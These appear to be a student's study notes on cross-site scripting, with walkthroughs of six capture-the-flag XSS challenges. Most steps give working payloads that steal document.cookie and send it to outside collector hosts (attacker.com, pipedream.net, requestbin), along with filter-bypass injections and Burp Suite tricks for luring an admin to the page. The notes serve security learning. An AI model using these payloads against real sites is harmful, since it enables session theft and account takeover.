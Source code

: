 # XSS
* Cross-site scripting (XSS) is a web security vulnerability that allows attackers to inject malicious code into a user's browser.

## Part 1. Report
 
## Part 2. XSS
- Working on Web Browser: JavaScript
- Working location: victim's web browser

1. Stored XSS -> Save in the server
2. Reflected XSS -> rebound from Server
3. XSS, CSRF
4. Steal cookie by using JavaScript

```javascript
var cookieData = document.cookie;
var i = new Image();
  i.src = "HTTP://normaltic.attacker.com/
  i.src = "HTTP://normaltic.attacker.com/?cookie=" + "Secret_data";
  i.src = "HTTP://normaltic.attacker.com/?cookie=" + cookieData;
```

5. VPS or requestbin - https://public.requestbin.com/r/

6. XSS
   [Common XSS Errors[(https://github.com/imnarendrabhati/testing-new/blob/master/%3CIMG%20SRC%3DX%20ONERROR:JAVASCRIPT:ALERT(1)%3B%3E)

1) CTF XSS 1 (https://portswigger.net/web-security/cross-site-scripting/contexts)
- Error = Input script
- Annoucement and create content "<script>alert(1)</script>" on the subject.
- When you click it, the alert shows up.
- Instead of alert(1), put var i = new Image(); i.src = "HTTP://en7riltg206nc.x.pipedream.net/getCrred.php?cookie=" + cookieData;
- In BurpSuite, instead of alert(1), put the below code
```javascript
var cookieData = document.cookie; 
var i = new Image();
i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;
```

- On the admin visit url = type the address made by the attack post
- Check the flag on https://public.requestbin.com/

7. DOM Based XSS
- Create a tag by using JavaScript
- Create and execute a new script from a browser
- an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim's browser used by the original client side script,
- document.write = "";
- innerHTML

## Part 3. Assignment
1. Review
2. XSS CTF <br>
 a. CTF XSS 2
    - Error = Showing the direct sentence on HTML => <script>alert('x에 대한 검색 결과가 존재하지 않습니다.');</script>
    - Check Attack statement on search bar => xss');alert(1);var i=('
    - Check Attack => xss');var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;var i=('
    - Send to repeater the POST URL to change GET method
    - Replace the Repeater on Burp Suite, working on the GET method instead of the POST method because the host gets the access
    - The GET URL inputs the admin visit URL bar
    - Check the flag on https://public.requestbin.com/

 b. CTF XSS 3
    - Error = Showing ID on the URL on the personal information 
    - Check the attack possibility to change the ID on Burp Suite Request
    - Check the attack statement => aaa"/><script>alert(1)</script>
    - Check the attack => aaa"/><script>var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;</script>
    - Copy GET URL and input the URL on the admin visit bar
    - Check the flag on https://public.requestbin.com/

  c. CTF XSS 4
    - Error = In the board, it is possible to use special characters (<'">).
    - Check the attack possibility of using an attack statement on the board. => <script>alert(1)</script>
    - Filtering "script" and "alert", so using another attack statement => <img src=x onerror=confirm(1)> 
    - Check the attack => <img src="https://x" onerror="location.href='http://enjt04rx79at.x.pipedream.net/?cookie=' + document.cookie;">
    - Block the long subject
    - Check the attack on the content box
    - Copy URL and input the URL on the admin visit bar
    - Check the flag on https://public.requestbin.com/

  d. CTF XSS 5
    - Error = In the board, it is possible to use special characters (<'">), but it converts &lt;
    - Check the attack possibility of using an attack statement on the board => <script>alert(1)</script>
    - Using the Burp Suite, the website should be intercepted step by step
    - Create a new post and forward
    - Check the attack statement => <script>var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;</script>
    - During the intercept, change the filtered attack statement
    - Open the new post and copy the URL and input the URL on the admin visit bar
    - Check the flag on https://public.requestbin.com/

  e. CTF XSS 6
    - Error = When you log in wrong, the alert pops up.
    - Check the attack possibility in the Burp Suite
    - The POST proxy sends to Repeater and changes the method to GET
    - Check special characters and it works
    - Check the attack statement => +]');alert(1)//
    - Check the attack => +]');location.href='http://enjt04rx79at.x.pipedream.net/?cookie='%2bdocument.cookie;//
    - Copy URL and input the URL on the admin visit bar
    - Check the flag on https://public.requestbin.com/

  f. CTF XSS Challenge 
